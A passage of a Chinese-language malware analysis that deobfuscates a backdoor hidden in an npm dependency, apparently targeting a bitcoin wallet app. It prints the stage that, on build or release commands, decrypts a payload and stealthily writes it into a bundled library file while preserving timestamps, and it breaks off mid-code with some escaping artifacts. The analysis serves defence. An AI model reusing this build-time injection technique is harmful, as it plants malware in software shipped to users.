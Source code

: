 输出下面内容：

[![](https://p1.ssl.qhimg.com/t010e932dcba5180f02.png)](https://p1.ssl.qhimg.com/t010e932dcba5180f02.png)

又发现了一段代码。但是这段代码此时还是字符串，为了让其生效，后门作者new了一个module构造器，然后编译其中的代码使其成为可执行的function。

[![](https://p5.ssl.qhimg.com/t01df04ae758811b870.png)](https://p5.ssl.qhimg.com/t01df04ae758811b870.png)

```
var f = new module.constructor();
(f.paths = module.paths), f[e(n[7])](a, ""), f.exports(n[1]);
console.log(`此时f.exports的类型是：$`{`typeof f.exports`}``)
```

[![](https://p2.ssl.qhimg.com/t016051235923ed71b1.png)](https://p2.ssl.qhimg.com/t016051235923ed71b1.png)

继续格式化拿到的新代码：

```
/*@@*/
module.exports = function(e) `{`
  try `{`
      if (!/build\:.*\-release/.test(process.argv[2])) return;// 用户使用build或者release等参数时执行下面代码
      var t = process.env.npm_package_description,// 密钥，还是 A Secure Bitcoin Wallet
          r = require("fs"),
          i = "./node_modules/@zxing/library/esm5/core/common/reedsolomon/ReedSolomonDecoder.js",
          n = r.statSync(i),
          c = r.readFileSync(i, "utf8"),
          o = require("crypto").createDecipher("aes256", t),// 解密出新的代码
          s = o.update(e, "hex", "utf8");
          s = "\n" + (s += o.final("utf8"));
          var a = c.indexOf("\n/*@@*/");
          0 &lt;= a &amp;&amp; (c = c.substr(0, a)), r.writeFileSync(i, c + s, "utf8"), r.utimesSync(i, n.atime, n.mtime), process.on("exit", function() `{`
              try `{`
                  r.writeFileSync(i, c, "utf8"), r.utimesSync(i, n.atime, n.mtime)// 将恶意代码写入到./node_modules/@zxing/library/esm5/core/common/reedsolomon/ReedSolomonDecoder.js中
              `}` catch (e) `{``}`
          `}`)
  `}` catch (e) `{``}`
`}`;
```

这里看到了后门作者第三个鸡贼点：再解密一次。不过思路一模一样了，而且这次代码没有那么晦涩难懂了。

此代码大概干了这些事：在开发者执行build、release等命令时，解密新的代码（最终Payload）将恶意代码写入cordova（一个跨平台应用开发框架）库中的一个文件，然后直接将恶意代码带入打包的应用程序中并最终带到用户终端。

下面解开最后的一段代码：



```
e = 'db67fdbfc39c249c6f3381...';
t = 'A Secure Bitcoin Wallet';
r = require("fs"),
i = "./node_modules/@zxing/library/esm5/core/common/reedsolomon/ReedSolomonDecoder.js",
n = r.statSync(i),
c = r.readFileSync(i, "utf8"),
o = require("crypto").createDecipher("aes256", t),// 解密出新的代码
s = o.update(e, "hex", "utf8");
s = "\n" + (s += o.final("utf8"));
console.log(`解密后字符串为$`{`s`}``);
var a = c.indexOf("\n/*@@*/");
0 &lt;= a &amp;&amp; (c = c.substr(0, a)), r.writeFileSync(i, c + s, "utf8"), r.utimesSync(i, n.atime, n.mtime), process.on("exit", function() `{`
    try `{`
```
